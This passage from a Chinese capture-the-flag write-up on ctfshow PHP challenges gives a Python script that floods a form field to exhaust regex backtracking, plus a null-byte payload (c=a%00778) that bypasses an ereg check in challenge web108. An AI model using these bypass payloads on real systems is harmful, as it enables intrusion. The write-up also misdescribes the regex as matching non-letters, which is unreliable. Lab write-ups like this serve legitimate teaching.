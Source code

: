 python脚本

```python
import requests
url="url"
data={
	'f':'very'*250000+'ctfshow'
}
r=requests.post(url,data=data)
print(r.text)
```

参考文献：
https://www.freebuf.com/articles/web/190794.html

##  3.ereg %00正则截断

###  web108

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}
?>
```

考点：ereg %00正则截断

首先解析正则表达式

```php
^[a-zA-Z]+$,表示匹配除了所有的字母的所有字符，并且匹配一次或者多次
```

ereg函数，在匹配到后，会返回false

正则表达式在遇到%00截断后，只会匹配%00前的东西

payload

```
strrev：使字符串反转
intval：将变量值整数化
36d的十进制为877
c=a%00778
```

##  4.intval
